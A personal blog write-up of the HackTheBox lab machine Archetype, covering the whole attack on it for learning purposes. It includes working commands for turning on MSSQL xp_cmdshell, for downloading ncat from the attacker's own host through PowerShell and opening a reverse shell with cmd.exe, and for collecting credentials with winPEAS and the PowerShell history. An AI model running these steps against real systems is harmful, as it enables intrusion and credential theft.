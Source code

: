 
  author: 'Alexander May',
  date: '2023-10-25',
  title: 'Writeup: HackTheBox - Archetype',
  description:
    'A walkthrough on how I solved the HackTheBox Archetype machine.',
  tags: ['HTB', 'Cybersecurity'],
}

  title: article.title,
  description: article.description,
}


I'm still new to HackTheBox, and Cybersecurity in general, so I want to use this blog to document my learning progress.

Archetype is the first box of Tier 2 of the HTB Starting Point machines. Judging from the questions asked, this seems to be the first box that requires us to submit a user flag as well as a root flag. Let's get started with the port scan:

```bash
┌─[alex@parrot]─[~]
└──╼ $nmap -sV -sC -Pn $ip
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-25 16:22 CEST
Nmap scan report for 10.129.89.40
Host is up (0.050s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
```

We can see that the machine has open SMB ports as well as a Microsoft SQL Server. I've encountered some boxes already that allowed anonymous access to the SMB, so let's try that first.
We're going to try listing all the shares:

```bash
┌─[alex@parrot]─[~]
└──╼ $smbclient -L -N $ip

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available
```

Authenticating with no password worked! We can see the default shares `ADMIN$` and `C$` , but unfortunately we cannot access them.

Trying the `backup` share however works, and shows a single file:

```bash
┌─[alex@parrot]─[~]
└──╼ $smbclient -N \\\\$ip\\backups
Password for [WORKGROUP\alex]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jan 20 13:20:57 2020
  ..                                  D        0  Mon Jan 20 13:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 13:23:02 2020

		5056511 blocks of size 4096. 2547768 blocks available
smb: \>
```

Searching for the `.dtsConfig` extension reveals that this is a configuration file for MSSQL server.
Wait, didn't we find one enumerating the ports? Surely there's nothing exciting in this config right...

```bash
smb: \> more prod.dtsConfig

<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```

Ah yes, plaintext credentials. We love those! The user id also seems to indicate that this is a domain user.
Let's try connecting to the server via the impacket `mssqlclient`:

```bash
┌─[✗]─[alex@parrot]─[/etc/impacket/examples]
└──╼ $mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@$ip -windows-auth
Impacket v0.12.0.dev1+20231015.203043.419e6f24 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232)
[!] Press help for extra shell commands
SQL (ARCHETYPE\sql_svc  dbo@master)>
```

Yes! That's good. Let's see what kind of access we have.

Using [this documentation](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server), we're going to check if we're an admin:

```bash
SQL (ARCHETYPE\sql_svc  dbo@master)> SELECT IS_SRVROLEMEMBER('sysadmin')

-
1
```

Yes. Our next goal is to enable cmd execution, which can be done via `xp_cmdshell`. Let's see if that is activated:

```
SQL (ARCHETYPE\sql_svc  dbo@master)> EXEC xp_cmdshell 'net user';
ERROR: Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
```

Okay. We will need to reactivate it by executing the following commands in order:

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

Flags are usually on the Desktops, so let's check what we can find with our new command execution:

```bash
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell "powershell -c dir c:/users/"
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        1/19/2020  10:39 PM                Administrator
d-r---        1/19/2020  10:39 PM                Public
d-----        1/20/2020   5:01 AM                sql_svc
```

Unfortunately we don't have access to the Administrator directory, but we can find the user flag on the `sql_svc` user's desktop.

```bash
> xp_cmdshell "powershell -c cat c:/users/sql_svc/desktop/user.txt"
```

Our next step is local privilege escalation. To check for possible attack vectors, we're going to use [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS).

To get the tool on the remote machine and execute, let's setup a reverse shell first. Here's how we're going to do that:

1. Setup a netcat listener on a port on our machine

```bash
┌─[alex@parrot]─[~]
└──╼ $nc -lvnp 4242
listening on [any] 4242 ...
```

2. Setup a simple python webserver on our machine that serves a ncat executable

```bash
┌─[alex@parrot]─[/usr/share/windows-resources/ncat]
└──╼ $sudo python3 -m http.server 80
[sudo] password for alex:
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

3. Download that exe to our target machine via powershell

```bash
> xp_cmdshell "powershell -c cd c:/users/sql_svc/downloads; wget http://yourip/ncat.exe -outfile ncat.exe"
```

4. Execute netcat on our target machine to run cmd.exe

```bash
> xp_cmdshell "powershell -c cd c:/users/sql_svc/downloads; ./ncat.exe -e cmd.exe yourip 4242"
```

```bash
connect to [yourip] from (UNKNOWN) [targetip] 49683
Microsoft Windows [Version 10.0.17763.2061]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\users\sql_svc\downloads>
```

Bingo! Now we can get winPEAS on our target machine, and execute it

```powershell
C:\users\sql_svc\downloads>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\users\sql_svc\downloads> wget http://yourip/winPEASx64.exe -outfile winPEASx64.exe
PS C:\users\sql_svc\downloads> ./winPEASx64.exe
```

This checks a lot of different attack vectors, and I was a bit overwhelmed so I decided to go with one of the first things it marked:

```
PowerShell Settings
    PowerShell v2 Version: 2.0
    PowerShell v5 Version: 5.1.17763.1
    PowerShell Core Version:
    Transcription Settings:
    Module Logging Settings:
    Scriptblock Logging Settings:
    PS history file: C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
    PS history size: 79B

```

Powershell apparently saves a history file. Theoretically this could contain credentials, but surely not, right...

```powershell
PS C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine> cat ConsoleHost_history.txt
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
```

I decided to use those credentials with our trusty `smbclient` to access the `C$` share and get our well-earned root flag :)

```bash
┌─[✗]─[alex@parrot]─[/etc/impacket/examples]
└──╼ $ smbclient \\\\$ip\\C$ -U administrator
Password for [WORKGROUP\administrator]:
smb: \> cd users/administrator/desktop
smb: \users\administrator\desktop\> more root.txt
```

Aaaand that's it! For me personally, this was probably the most challenging box yet. The privilege escalation part took me a lot of time, while the foothold was done pretty quickly.
Hope you'll join me for the next writeup!
